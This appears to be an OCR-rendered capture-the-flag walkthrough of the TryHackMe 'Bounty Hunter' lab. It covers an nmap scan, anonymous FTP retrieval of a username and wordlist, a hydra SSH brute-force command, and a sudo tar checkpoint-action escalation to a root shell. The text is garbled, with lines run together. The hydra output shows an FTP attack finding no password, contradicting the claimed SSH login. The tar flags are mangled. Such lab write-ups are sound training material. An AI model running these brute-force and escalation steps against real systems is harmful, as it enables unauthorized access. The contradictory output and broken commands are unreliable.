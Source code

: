 # TryHackMe Bounty Hunter


![Open Lightbox](../assets/bounty_hunter1.webp){ .glightbox .center width="600" }
```
TryhackMe Machine:- Bounty Hunter
Machine Info:- 
Machine Level:- Easy
```

---
Lets start with an quick nmap scan and see which ports are open and working.

Nmap Scan

```bash
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3|
ftp-syst: |   STAT: | FTP server status:|      Connected 
to ::ffff:10.17.33.72|      Logged in as ftp|      TYPE: 
ASCII|No session bandwidth limit|      Session timeout in
seconds is 300| Control connection is plain text|      
Data connections will be plain text|      
At session startup, client count was 4|      vsFTPd 3.0.3
- secure, fast, stable|_End of status| ftp-anon: Anonymous 
FTP login allowed (FTP code 230)| -rw-rw-r--    1 ftp      
ftp           418 Jun 07  2020 locks.txt|_ -rw-rw-r--    1 ftp      ftp            
68 Jun 07  2020 task.txt22/tcp open  ssh    
OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)| ssh-hostkey: |
2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)|
256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)|
_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))|_http-title: 
Site doesn't have a title (text/html).|_http-server-header: 
Apache/2.4.18 (Ubuntu)Aggressive OS guesses: HP P2000 G3 NAS device (91%), 
Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Ubiquiti AirMax NanoStation 
WAP (Linux 2.6.32) (90%), Linux 3.7 (90%), Linux 5.0 (90%), Linux 5.1 (90%),
Ubiquiti AirOS 5.5.9 (90%), Linux 5.0 - 5.4 (89%), Ubiquiti Pico Station WAP
(AirOS 5.2.6) (89%)No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hopsService Info: OSs: Unix, Linux; CPE: cpe:/
o:linux:linux_kernelTRACEROUTE (using port 80/tcp)HOP RTT       ADDRESS1   
22.96 ms  10.17.0.12   ... 45   145.37 ms 10.10.0.198OS and Service detection 
performed. Please report any incorrect results at https://nmap.org/submit/ .Nmap 
done: 1 IP address (1 host up) scanned in 33.70 seconds
```

We can see in the nmap result that ftp port 21 and ssh port 22 is open firstly im going to try ftp into the machine.

FTP into the machine.

The FTP is accessible try login with anonymous. command :-

Ftp <IP_Address> when asked for user enter anonymous.

```bash
ftp> ls -la200 PORT command successful. Consider using PASV.150 
Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt226 
Directory send OK.ftp>
```

We got 2 files in afte we successfully logined in into the ftp server.

Get the files locks.txt and task.txt they are needed in further enumeration.

```bash
get task.txtget locks.txt
```

After this we analysed the files and in task.txt we found a user (lin).

```bash
$ cat task.txt1.) Protect Vicious.2.) Plan for Red Eye pickup on the moon.-lin
```

locks.txt Clearly looks like a wordlist so we will use it for bruteforce.

```bash
*$ cat locks.txt* 
- rEddrAGON- ReDdr4g0nSynd!cat3
- Dr@gOn$yn9icat3
- R3DDr46ONSYndIC@Te- ReddRA60N
- R3dDrag0nSynd1c4te- dRa6oN5YNDiCATE
- ReDDR4g0n5ynDIc4te- R3Dr4gOn2044
- RedDr4gonSynd1cat3- R3dDRaG0Nsynd1c@T3
- Synd1c4teDr@g0n- reddRAg0N
- REddRaG0N5yNdIc47e- Dra6oN$yndIC@t3
- 4L1mi6H71StHeB357- rEDdragOn$ynd1c473
- DrAgoN5ynD1cATE- ReDdrag0n$ynd1cate
- Dr@gOn$yND1C4Te- RedDr@gonSyn9ic47e
- REd$yNdIc47e- dr@goN5YNd1c@73
- rEDdrAGOnSyNDiCat3- r3ddr@g0N- ReDSynd1ca7e
```

I used hydra to brute force ssh login using the user name lin and the wordlist locks.txt.

```bash
hydra -l lin -P locks.txt <IP_Address> ssh
```

```bash
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak 
- Please do not use in military or secret service organizations, 
or for illegal purposes (this is non-binding, these 
*** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) 
starting at 2021-12-22 21:45:38[DATA] max 16 tasks per 1 server,
overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task[DATA] attacking ftp://10.10.0.198:21/1 of 1 target completed, 0 valid password foundHydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-22 21:45:39
```

We found the password and login via ssh we see the user flag we just cat the user flag user.txt — THM{userflag}.

Now we need to escalate our privilege we can exploit lin’s sudo privilege.

```bash
lin@bountyhacker:~$ sudo -l[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:    
env_reset, mail_badpass, 
secure_path=/usr/local/sbin\:/usr/local/bin\:
/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/binUser 
lin may run the following commands on bountyhacker:    
(root) /bin/tar
```

I searched more on tar sudo privilege escaltion and found this.

just run the following command.

```bash
sudo tar -cf /dev/null /dev/null - checkpoint=1 - checkpoint-action=exec=/bin/sh
```

![Open Lightbox](../assets/bounty_hunter2.webp){ .glightbox .center width="500" }
Now we have a root access you can see by typing :- sudo -l.

And got the root access and the root flag.

![Open Lightbox](../assets/bounty_hunter3.webp){ .glightbox .center width="500" }
Thank you for reading
